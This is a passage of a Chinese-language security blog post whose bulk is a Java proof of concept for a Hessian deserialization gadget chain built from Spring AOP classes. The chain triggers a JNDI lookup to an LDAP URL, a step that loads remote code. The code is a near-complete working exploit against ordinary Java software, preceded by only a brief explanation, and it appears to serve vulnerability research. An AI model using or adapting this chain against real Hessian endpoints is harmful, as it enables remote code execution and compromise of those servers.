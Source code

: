 在自己写这条链的时候，也是在不断的报错，因为发现它里面利用的很多类都没有继承`Serializable`接口，导致无法序列化和反序列化，并且似乎并没有找到绕过去的方式，包括`SimpleJndiBeanFactory`，后来看了一下`marshalsec`，后来才知道`Hessian`可以不需要继承序列化和反序列化的。

```plain
package com.example.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.caucho.hessian.io.SerializerFactory;
import org.springframework.aop.support.*;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import org.springframework.scheduling.annotation.AsyncAnnotationAdvisor;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class springaop {
    public static void main(String[] args) throws Exception {
        String jndiUrl = "ldap://127.0.0.1:9999/siJdcpuR";
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();
        simpleJndiBeanFactory.setShareableResources(jndiUrl);//这里一定要设置，为了过 Singleton()

        Class<?> AbstractBeanFactoryPointcutAdvisor = Class.forName("org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor");
        DefaultBeanFactoryPointcutAdvisor defaultBeanFactoryPointcutAdvisor = new DefaultBeanFactoryPointcutAdvisor();
        Field adviceBeanName = AbstractBeanFactoryPointcutAdvisor.getDeclaredField("adviceBeanName");
        adviceBeanName.setAccessible(true);
        adviceBeanName.set(defaultBeanFactoryPointcutAdvisor, jndiUrl);
        Field beanFactory = AbstractBeanFactoryPointcutAdvisor.getDeclaredField("beanFactory");
        beanFactory.setAccessible(true);
        beanFactory.set(defaultBeanFactoryPointcutAdvisor, simpleJndiBeanFactory);

        AsyncAnnotationAdvisor asyncAnnotationAdvisor = new AsyncAnnotationAdvisor();
        HotSwappableTargetSource hotSwappableTargetSource = new HotSwappableTargetSource(1);
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(2);
        HashMap hashMap = new HashMap();
        hashMap.put(hotSwappableTargetSource, "1");
        hashMap.put(hotSwappableTargetSource1, "2");
        setFieldValue(hotSwappableTargetSource,"target",defaultBeanFactoryPointcutAdvisor);
        setFieldValue(hotSwappableTargetSource1,"target",asyncAnnotationAdvisor);
        String result=Hessian_serialize(hashMap);
        Hessian_unserialize(result);
    }
    public static String Hessian_serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        HessianOutput hessianOutput=new HessianOutput(byteArrayOutputStream);
        SerializerFactory serializerFactory=new SerializerFactory(); //无需继承Serializable也可进行序列化和反序列化
        serializerFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializerFactory);
        hessianOutput.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static void Hessian_unserialize(String obj) throws IOException, ClassNotFoundException {
        byte[] code=Base64.getDecoder().decode(obj);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(code);
        HessianInput hessianInput=new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
```